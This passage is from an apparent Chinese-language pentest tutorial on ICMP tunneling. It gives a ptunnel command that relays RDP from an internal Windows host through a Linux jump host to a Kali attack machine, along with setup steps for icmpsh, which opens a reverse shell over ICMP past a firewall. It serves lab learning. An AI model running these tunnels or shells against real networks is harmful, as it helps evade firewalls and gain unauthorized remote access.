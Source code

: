 





```none
ptunnel -p 172.16.214.5 -lp 1080 -da 192.168.7.110 -dp 3389 -x teamssix
```







```none
-p  指定跳板机外网IP-lp 指定本机的监听端口-da 指定目标机的内网IP-dp 指定目标机的端口-x 设置隧道密码
```

在 Linux Web 跳板机上执行以下命令







```none
ptunnel -x teamssix
```

之后访问 Kali 攻击机 172.16.214.6 的 1080 端口就会连接到 Win RDP 目标机 192.168.7.110 的 3389 端口了，不过实测发现这种方法有些不稳定。



![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_14-46-46.png)



### icmpsh

icmpsh 使用很简单，直接在 github 上下载，运行时不需要管理员权限，但是在使用时需要关闭本地系统的 ICMP 应答，不然 shell 的运行会不稳定。







```none
git clone https://github.com/inquisb/icmpsh.git #下载工具apt-get install python-impacket # 安装依赖，或者 pip2 install impacketsysctl -w net.ipv4.icmp_echo_ignore_all=1  #关闭本地ICMP应答
```

icmpsh 常用命令介绍：







```none
-t host            发送ping请求的主机ip地址，即攻击机的IP [该命令必须存在]-d milliseconds    请求时间间隔（毫秒）-o milliseconds    响应超时时间（毫秒）-s bytes           最大数据缓冲区大小（字节）
```

目前有这样的一个场景，攻击机能通过 ICMP 协议访问到目标主机，但是目标上有防火墙，拒绝了敏感端口比如 22、3389 端口的访问，这个时候可以使用 icmpsh 利用 ICMP 协议建立反向 shell


